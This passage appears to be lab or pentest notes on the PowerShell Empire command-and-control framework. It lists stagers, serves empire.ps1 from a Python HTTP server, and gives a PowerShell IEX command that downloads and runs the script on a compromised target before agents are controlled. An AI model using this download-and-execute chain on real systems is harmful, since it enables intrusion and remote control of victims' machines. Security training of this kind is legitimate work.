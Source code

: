 ![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556868222407_image.png)

## using stagers
alternatively like launchers there are stagers

    usestagers

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556868652461_image.png)


 *we have duck, hta, bat, vbs, macros, macroless_msword files*

## sending empire.ps1
setup local http server

    python -m SimpleHTTPServer 80

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556868456691_image.png)

target meterpreter shell download file:

    powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.114.16/empire.ps1')"

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556868557476_image.png)

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556868578235_image.png)

*verified that the file was send from the local web-server.*

back out to main menu

    back
    agents

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556868713616_image.png)

*our target machine is now hooked. Empire is different in that based off the delay is when our target contacts the “mothership” to retrieve commands.*

To change the frequency/delay

    sleep
    sleep all 1
    agents 

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556868839908_image.png)

## interacting with agents
    interact M9N3T5HS

![](https://paper-attachments.dropbox.com/s_28C056C16ADAFDB58ADAF02C1C99B3F8C406B0B274495B5ACDDDA71371767BCA_1556868910497_image.png)

show modules (tab x2) lists all available modules
